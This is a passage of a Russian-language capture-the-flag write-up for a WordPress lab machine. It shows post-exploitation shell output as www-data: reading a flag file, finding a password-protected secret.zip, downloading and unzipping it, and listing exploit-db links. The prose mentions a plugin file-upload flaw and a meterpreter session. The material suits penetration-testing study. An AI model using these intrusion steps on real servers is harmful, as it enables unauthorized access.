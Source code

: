 >Уязвимый плагин позволяет загрузить произвольный файл на сервер и получить сеанс meterpreter, таким образом берем первый флаг.

```html
www-data@ubuntu:/var/www/html/wordpress/wp-content/uploads/2020/03$ cd //
cd //
www-data@ubuntu://$ cd home
cd home
www-data@ubuntu://home$ ls
ls
raj
www-data@ubuntu://home$ cd raj
cd raj
www-data@ubuntu://home/raj$ ls
ls
Desktop    Downloads  Pictures  Templates  examples.desktop  plugin
Documents  Music      Public    Videos     flag1.txt
www-data@ubuntu://home/raj$ cat flag1.txt
cat flag1.txt
aHR0cHM6Ly93d3cuaGFja2luZ2FydG**********
```

>При просмотре корневой директории был замечен интересный архив:

```html
www-data@ubuntu://var/www/html$ ls
ls
index.html  info.php  notes.txt  <mark>secret.zip</mark>  wordpress
www-data@ubuntu://var/www/html$ cat notes.txt
cat notes.txt
You Need to ZIP Your Wayout
```

>Скачаем его и разархивируем, пароль для архива оказался хэшем пользователя admin, который мы получили ранее:

```html
root@kali:~# wget http://192.168.56.118/secret.zip
--2020-03-25 10:53:19--  http://192.168.56.118/secret.zip
Connecting to 192.168.56.118:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 261 [application/zip]
Saving to: ‘secret.zip’

secret.zip          100%[===================>]     261  --.-KB/s    in 0s      

2020-03-25 10:53:19 (19.6 MB/s) - ‘secret.zip’ saved [261/261]

root@kali:~# unzip secret.zip
Archive:  secret.zip
[secret.zip] link.txt password: 
  inflating: link.txt                
root@kali:~# cat link.txt
https://www.exploit-db.com/exploits/38861
https://www.exploit-db.com/exploits/40290
https://www.exploit-db.com/exploits/36374
https://www.exploit-db.com/exploits/37824
https://www.exploit-db.com/exploits/41006
```
